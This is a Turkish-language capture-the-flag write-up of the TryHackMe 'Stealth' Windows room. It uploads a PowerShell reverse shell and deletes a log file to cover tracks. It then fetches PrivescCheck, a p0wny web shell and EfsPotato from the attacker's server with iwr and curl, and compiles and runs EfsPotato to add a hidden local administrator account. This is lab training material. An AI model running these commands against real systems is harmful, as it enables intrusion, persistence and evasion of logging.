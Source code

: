 ```yaml
---
title: Stealth
date: 2024-03-27 12:25:12 
categories: [TryHackMe]
tags: [Medium]
image: /images/stealth.jpg
---
```


### What is the content of the user level flag?

Odanın açıklamasında 8080 portuna gitmemiz istenmiş.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Stealth/images/1.png?raw=true)

Powershell script'i yükleyebileceğimiz bir sayfa açılıyor. Gerekli reverse shell dosyasını [buradan](https://github.com/martinsohn/PowerShell-reverse-shell/blob/main/powershell-reverse-shell.ps1?source=post_page-----aa684e97575a--------------------------------) indirebilirsiniz. IP ve portu değiştirmeyi unutmayın.


Script'i yükledikten birkaç saniye sonra shellimizi alıyoruz. 

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Stealth/images/2.png?raw=true)

User Flag "C:\Users\evader\Desktop" dizininde.

````console
    Directory: C:\Users\evader\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        6/21/2016   3:36 PM            527 EC2 Feedback.website                                                  
-a----        6/21/2016   3:36 PM            554 EC2 Microsoft Windows Guide.website                                   
-a----         8/3/2023   7:12 PM            194 encodedflag                                                           


SHELL> cat encodedflag
-----BEGIN CERTIFICATE-----
WW91IGNhbiBnZXQgdGhlIGZsYWcgYnkgdmlzaXRpbmcgdGhlIGxpbmsgaHR0cDov
LzxJUF9PRl9USElTX1BDPjo4MDAwL2FzZGFzZGFkYXNkamFramRuc2Rmc2Rmcy5w
aHA=
-----END CERTIFICATE-----
````

Base64 dizesi. Decode edelim.

````
┌──(root㉿kali)-[~]
└─# echo WW91IGNhbiBnZXQgdGhlIGZsYWcgYnkgdmlzaXRpbmcgdGhlIGxpbmsgaHR0cDovLzxJUF9PRl9USElTX1BDPjo4MDAwL2FzZGFzZGFkYXNkamFramRuc2Rmc2Rmcy5waHA= | base64 -d 
You can get the flag by visiting the link http://<IP_OF_THIS_PC>:8000/asdasdadasdjakjdnsdfsdfs.php   
````

Siteyi ziyaret edelim.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Stealth/images/3.png?raw=true)

Taklaya geldik :( log dosyasını silmemiz istenmiş.

log.txt dosyası C:\xampp\htdocs\uploads dizininde
 
````console
SHELL> ls 


    Directory: C:\xampp\htdocs\uploads


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----         8/1/2023   5:10 PM            132 hello.ps1                                                             
-a----        8/17/2023   4:58 AM              0 index.php                                                             
-a----         5/6/2024   1:47 AM            302 log.txt                                                               
-a----         5/6/2024   1:47 AM           1460 powershell-reverse-shell.ps1                                          
-a----         9/4/2023   3:18 PM            771 vulnerable.ps1                                                        


SHELL> rm log.txt
````

log dosyasını sildikten sonra ilk bayrağımızı alıyoruz.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Stealth/images/4.png?raw=true)


### What is the content of the root level flag?

[PrivescCheck.ps1](https://github.com/itm4n/PrivescCheck/blob/master/PrivescCheck.ps1) dosyasını indirelim.

`python3 -m http.server 80` komutu ile web servisini çalıştırdım.

`iwr -uri "http://10.9.0.137/PrivescCheck.ps1" -o PrivescCheck.ps1` komutu ile dosyayı makineye yükledim.

Ardından Powershell script'ini çalıştırıyorum. `powershell -ep bypass -c ". .\privesc.ps1; Invoke-privesc"`


`whoami /priv` komutu ile evader kullanıcısının izinlerini kontrol ediyorum.

````console
SHELL> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
````

C:\xampp\htdocs dizinine [p0wnyshell](https://github.com/flozz/p0wny-shell/blob/master/shell.php) yükledim.

`iwr -uri "http://10.9.0.137/shell.php" -o shell.php`


http://10.10.37.152:8080/shell.php dizinine gidip shellimizi alalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Stealth/images/5.png?raw=true)

[EfsPotato](https://github.com/zcgonvh/EfsPotato/blob/master/EfsPotato.cs) dosyasını indirdim ve makineye yükledim.

`curl http://10.9.0.137/EfsPotato.cs -o C:\xampp\htdocs\efs.cs`

`C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe efs.cs -nowarn:1691,618` komutu ile dosyayı compile edin.

Şimdi EfsPotato kullanarak SemlpersonatePrivilage açığından yararlanalım ve  yetkimizi yükseltelim.

Administators grubuna yetkili bir kullanıcı ekleyeceğiz.

`efs.exe "cmd.exe /c net user user password /add && net localgroup administrators user /add"`

Remmina'yla makineye bağlanalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Stealth/images/6.png?raw=true)

ve root bayrağını alalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Stealth/images/7.png?raw=true)







